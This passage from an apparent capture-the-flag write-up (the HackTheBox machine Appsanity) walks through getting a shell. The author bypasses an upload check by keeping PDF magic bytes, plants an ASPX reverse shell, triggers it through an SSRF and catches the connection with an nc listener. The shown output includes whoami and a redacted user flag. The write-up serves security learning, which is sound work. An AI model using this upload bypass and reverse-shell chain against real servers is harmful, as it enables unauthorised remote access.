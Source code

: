 However, if I leave the start of the PDF (the “magic bytes”) and replace the body with my text like this:

![image-20240301160435787](/img/image-20240301160435787.png)

Then there is a new link, and I can fetch it over the SSRF:

![image-20240301160518473](/img/image-20240301160518473.png)

So the webserver seems to be validinting the file based on the magic bytes.

#### Shell

I’ll grab an [ASPX reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx) from GitHub, and put it in place of my text, making sure to update the callback IP and port. To make things easier, I’ll update the patient name to “reverseshell” (spaces break it). I’ll upload it, and fetch the admin page via the SSRF in the web browser:

![image-20240301160928009](/img/image-20240301160928009.png)

The report link is `https://portal.meddigi.htb/ViewReport.aspx?file=887947b0-f4ba-4939-8181-7d9d195b7d21_dummy.aspx`, so I’ll update my SSRF trigger in Repeater (with `nc` listening):

![image-20240301161029674](/img/image-20240301161029674.png)

When I send, it just hangs, but a few seconds later at `nc`:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.238 62885
Spawn Shell...
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv> whoami
appsanity\svc_exampanel

```

The user flag is on the exampanel user’s desktop:

```

c:\Users\svc_exampanel\Desktop> type user.txt
1198a84a************************

```

Running `powershell` converts this shell from `cmd` to `powershell`, which is also nice.

## Shell as devdoc

### Enumeration
